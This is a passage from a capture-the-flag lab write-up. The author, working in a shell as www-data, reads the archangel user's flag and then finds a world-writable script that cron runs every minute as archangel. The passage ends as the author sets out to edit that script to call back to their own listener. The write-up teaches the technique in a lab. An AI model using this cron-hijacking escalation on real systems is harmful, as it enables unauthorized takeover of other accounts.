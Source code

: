 <br>

I check to see if I can view the user flag in the **archangel** user directory and can giving us the answer to the **fifth** objective: **Get a shell and find the user flag**:

```
www-data@ubuntu:/var/www/html/development_testing$ cd /home/archangel
www-data@ubuntu:/home/archangel$ ls
myfiles  secret  user.txt
www-data@ubuntu:/home/archangel$ cat user.txt
thm{<REDACTED>}
www-data@ubuntu:/home/archangel$
```

We don't have access to visit the **secret** directory so I take a look in **myfiles** and find a file called **passwordbackup**. Opening that up will let you visit with our good friend Rick again:

```
total 12
drwxr-xr-x 2 archangel archangel 4096 Nov 18  2020 .
drwxr-xr-x 6 archangel archangel 4096 Nov 20  2020 ..
-rw-r--r-- 1 root      root        44 Nov 18  2020 passwordbackup
www-data@ubuntu:/home/archangel/myfiles$ cat passwordbackup 
https://www.youtube.com/watch?v=dQw4w9WgXcQ
```

<br>

## Archangel

I look in the **/opt** directory and find some interesting files:

```
drwxrwx---  2 archangel archangel 4096 Nov 20  2020 backupfiles
-rwxrwxrwx  1 archangel archangel   66 Nov 20  2020 helloworld.sh
```

Looking in the **helloworld.sh** script:

```
#!/bin/bash
echo "hello world" >> /opt/backupfiles/helloworld.txt
```

We have the ability to modify this script however we wish but will not have access to execute it since it sends a file into **backupfiles** and we can't access that. I check to see if this script is ran through **cron** and it is, so we should be able to easily escalate over to the **archangel** user:

`cat /etc/crontab`

```
# m h dom mon dow user  command
*/1 *   * * *   archangel /opt/helloworld.sh
```

So it runs every minute and we just need to modify the script to connect back to a listener on our system. I change it to this:
